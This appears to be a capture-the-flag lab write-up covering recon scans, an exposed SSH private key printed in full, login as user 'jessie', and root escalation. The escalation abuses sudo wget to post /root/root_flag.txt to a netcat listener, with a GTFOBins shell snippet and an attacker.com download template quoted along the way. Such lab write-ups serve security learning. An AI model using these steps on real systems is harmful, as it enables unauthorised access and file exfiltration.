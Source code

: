 #CTF 

_Can you exfiltrate the root flag?_

## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.18.141/sitemap/]                                                              
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
```

And in the sitemap subdirectory

```
/images               (Status: 301) [Size: 321] [--> http://10.10.18.141/sitemap/images/]                                                       
/contact.html         (Status: 200) [Size: 10346]
/.html                (Status: 403) [Size: 277]
/about.html           (Status: 200) [Size: 12232]
/index.html           (Status: 200) [Size: 21080]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/css                  (Status: 301) [Size: 318] [--> http://10.10.18.141/sitemap/css/]
/work.html            (Status: 200) [Size: 11428]
/js                   (Status: 301) [Size: 317] [--> http://10.10.18.141/sitemap/js/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.18.141/sitemap/fonts/]
/.html                (Status: 403) [Size: 277]
/sass                 (Status: 301) [Size: 319] [--> http://10.10.18.141/sitemap/sass/]
```

## Access 

Looking at the code of the site I see this comment on the html
`<!-- Jessie don't forget to udate the webiste -->`
So maybe I have a username
Then I look around a bit on the site , on the subdirectories of sitemap. I cant find something , so I run gobuster and get 
```
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.40.200/sitemap/.ssh/]
```

So I go to .ssh
and find the id_rsa key
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

So I  make a file id_rsa
```
sudo chmod 600 id_rsa 
ssh -i id_rsa jessie@[ip]
```

And I am in! I find my flag under Documents
`057c67131c3d5e42dd5cd3075b198ff6`


## Priv Esc

With sudo -l I get
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

SO I go to gtfo bins and find this
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

but I couldnt execute the last one
```
wget: unrecognized option '--use-askpass=/tmp/tmp.cghjh8alb0'
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
```

So I tried the file upload 
```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE
```

To do the above I open a nc connection on my machine and then on the other terminal I type
`sudo wget --post-file=/root/root_flag.txt http://[local ip]:1234`
And on my netcat I get the flag!
`b1b968b37519ad1daa6408188649263d`